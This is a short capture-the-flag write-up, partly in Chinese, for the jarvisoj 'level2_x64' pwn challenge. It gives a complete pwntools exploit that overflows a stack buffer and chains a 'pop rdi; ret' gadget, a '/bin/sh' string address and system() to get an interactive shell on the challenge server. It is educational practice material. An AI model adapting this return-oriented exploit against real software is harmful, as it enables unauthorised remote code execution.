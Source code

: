```yaml
---
layout:     post
title:      jarvisoj [XMAN]level2_x64
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level2_x64.04d700633c6dc26afc6a1e7e9df8c94e

Address:
nc pwn2.jarvisoj.com 9882
```
<!-- more -->


### 0x01 exploit

参考level0的解法，构造system("/bin/sh")

![](/assets/img/ctf/pwn/2017-07-12-jarvisoj-level2_x64/0x00.png)

最终exploit如下

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
system_addr = 0x4004C0 # 0x600A78
bin_sh_addr = 0x600A90
pop_rdi_ret = 0x4006b3

Io = remote('pwn2.jarvisoj.com', 9882)

payload = junk + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

Io.send(payload)
Io.interactive()
```

得到flag

![](/assets/img/ctf/pwn/2017-07-12-jarvisoj-level2_x64/0x01.png)